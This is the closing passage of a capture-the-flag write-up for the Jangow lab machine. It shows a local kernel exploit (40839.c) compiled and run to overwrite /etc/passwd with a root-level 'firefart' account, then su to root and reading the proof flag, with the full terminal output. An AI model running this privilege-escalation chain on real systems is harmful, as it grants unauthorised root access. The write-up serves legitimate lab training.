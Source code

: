 ```bash
jangow01@jangow01:~$ gcc -pthread 40839.c -lcrypt
jangow01@jangow01:~$ ./a.out
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fik57D3GJz/tk:0:0:pwned:/root:/bin/bash

mmap: 7fa6923f4000
^C
jangow01@jangow01:~$ su firefart
Senha:
firefart@jangow01:/home/jangow01#
```

We can now `su` as `firefart` with `root` permissions and can retrieve the flag. :)

```bash
firefart@jangow01:/home/jangow01# uname -a; id; cat /root/proof.txt
Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
uid=0(firefart) gid=0(root) grupos=0(root)
                       @@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@&&&&&&&&&&&&&&
                       @  @@@@@@@@@@@@@@@&#   #@@@@@@@@&(.    /&@@@@@@@@@@
                       @  @@@@@@@@@@&( .@@@@@@@@&%####((//#&@@@&   .&@@@@@
                       @  @@@@@@@&  @@@@@@&@@@@@&%######%&@*   ./@@*   &@@
                       @  @@@@@* (@@@@@@@@@#/.               .*@.  .#&.   &@@@&&
                       @  @@@, /@@@@@@@@#,                       .@.  ,&,   @@&&
                       @  @&  @@@@@@@@#.         @@@,@@@/           %.  #,   %@&
                       @@@#  @@@@@@@@/         .@@@@@@@@@@            *  .,    @@
                       @@&  @@@@@@@@*          @@@@@@@@@@@             ,        @
                       @&  .@@@@@@@(      @@@@@@@@@@@@@@@@@@@@@        *.       &@
                      @@/  *@@@@@@@/           @@@@@@@@@@@#                      @@
                      @@   .@@@@@@@/          @@@@@@@@@@@@@              @#      @@
                      @@    @@@@@@@@.          @@@@@@@@@@@              @@(      @@
                       @&   .@@@@@@@@.         , @@@@@@@ *            .@@@*(    .@
                       @@    ,@@@@@@@@,   @@@@@@@@@&*%@@@@@@@@@,    @@@@@(%&*   &@
                       @@&     @@@@@@@@@@@@@@@@@         (@@@@@@@@@@@@@@%@@/   &@
                       @ @&     ,@@@@@@@@@@@@@@@,@@@@@@@&%@@@@@@@@@@@@@@@%*   &@
                       @  @@.     .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%*    &@&
                       @  @@@&       ,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%/     &@@&&
                       @  @@@@@@.        *%@@@@@@@@@@@@@@@@@@@@&#/.      &@@@@&&
                       @  @@@@@@@@&               JANGOW               &@@@
                       @  &&&&&&&&&@@@&     @@(&@ @. %.@ @@%@     &@@@&&&&
                                     &&&@@@@&%       &/    (&&@@@&&&
                                       (((((((((((((((((((((((((((((





da39a3ee5e6b4b0d3255bfef95601890afd80709
```


